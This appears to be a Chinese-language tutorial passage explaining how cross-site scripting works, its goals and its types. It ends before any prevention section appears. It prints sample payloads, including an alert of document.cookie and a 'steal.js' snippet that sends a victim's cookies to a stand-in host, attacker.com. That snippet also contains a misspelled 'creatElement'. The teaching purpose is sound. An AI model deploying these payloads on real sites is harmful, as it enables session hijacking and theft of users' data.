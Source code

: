 * [SQL injection 原理介紹與防範教學 - 工程師絕不能犯的低級錯誤！](https://blog.kennycoder.io/2020/01/09/SQL-injection-%E5%8E%9F%E7%90%86%E4%BB%8B%E7%B4%B9%E8%88%87%E9%98%B2%E7%AF%84%E6%95%99%E5%AD%B8-%E5%B7%A5%E7%A8%8B%E5%B8%AB%E7%B5%95%E4%B8%8D%E8%83%BD%E7%8A%AF%E7%9A%84%E4%BD%8E%E7%B4%9A%E9%8C%AF%E8%AA%A4/)
* [Sql injection 幼幼班](https://www.slideshare.net/hugolu/sql-injection-61608454)


請說明 XSS 的攻擊原理以及防範方法
---


### **Cross-site scripting（XSS）跨網站腳本** 
為了與 CSS (Cascading Style Sheets)  區別，第一個字改為 X，簡稱 XSS

### **XSS 攻擊原理：**

攻擊者首先在網站內可以輸入內容的地方（例如：留言版、訊息、搜尋欄或網址列...等），輸入一段特殊的代碼（大多為 HTML 或 Javascript 語法），然後神奇的是，這段惡意代碼由於沒有經過校驗與過濾，所以瀏覽器無法識別與網站正常的程式有什麼差別，導致惡意代碼成為程式的一部分被執行。

> 舉個例子來說，如果沒有嚴格的監督與可靠的識別機制，民眾無法分別萊克多巴胺豬跟本土豬有什麼樣的區別時，結果就是：一律被當作本土豬吃下肚。

一旦受到了 XSS 攻擊，日後任何的使用者在造訪這個網站時，則會載入這段惡意的腳本，攻擊者便可利用這些惡意腳本，修改網站的內容或竊取使用者的隱私資料。

### **XSS 攻擊目的：**

攻擊者這麼做能幹嘛？對他們有什麼好處？
1. **改頁面**：修改網站頁面的呈現--> 可用  `.html() `或 `.innerHTML()`等語法或者直接放 JS 語法
2. **轉址**： 網頁被置換或者將使用者從正在訪問的頁面導入到釣魚網站，劫持流量 --> `location.href=" "`
3. **盜用使用者賬戶進行轉賬、發訊息**
4. **偷資料**：將使用者的隱私資料如 cookie / Session ID 發送給攻擊者，獲得使用者登錄狀態 -->`<script type="text/javascript">alert(document.cookie)</script>`
5. **利用使用者發起 [DDOS 攻擊](https://www.cloudflare.com/zh-tw/learning/ddos/what-is-a-ddos-attack/)**



### **XSS 攻擊主要分為三種類型：**
1. **反射型 XSS (Reflected)**
 又稱為非持久型 XSS 攻擊，攻擊者發現網站有 URL 的漏洞，於是建構了一段特殊的 URL，當使用者點開這個惡意的 URL 連接後，使用者的瀏覽器就會執行這段 URL 請求，混在裡面惡意程式也會被執行，從而執行攻擊者指定的操作。
 例如，當被害人點擊該 URL 時，就會看到且執行該 JavaScript
`http://www.mysite.com/?example=<script>alert('You have been attacked')</script>`

    另一個例子:
    
    ```
    // input 輸入欄位
    <input type="text" placeholder="請輸入內容" />  

    // 攻擊者在欄位中輸入以下程式，當程式執行時，會執行steal.js
    <script type="text/javascript" src="http://www.attacker.com/steal.js"></script>

    steal.js
    // 攻擊者在遠端的 steal.js 程式，利用 <img> 標籤不受同源政策的限制拿到使用者的 cookie
    const img = document.creatElement("img");
    img.src = "http://www.attacker.com/log?" + escape(document.cookie);
    document.body.appendChild(img);
    ```
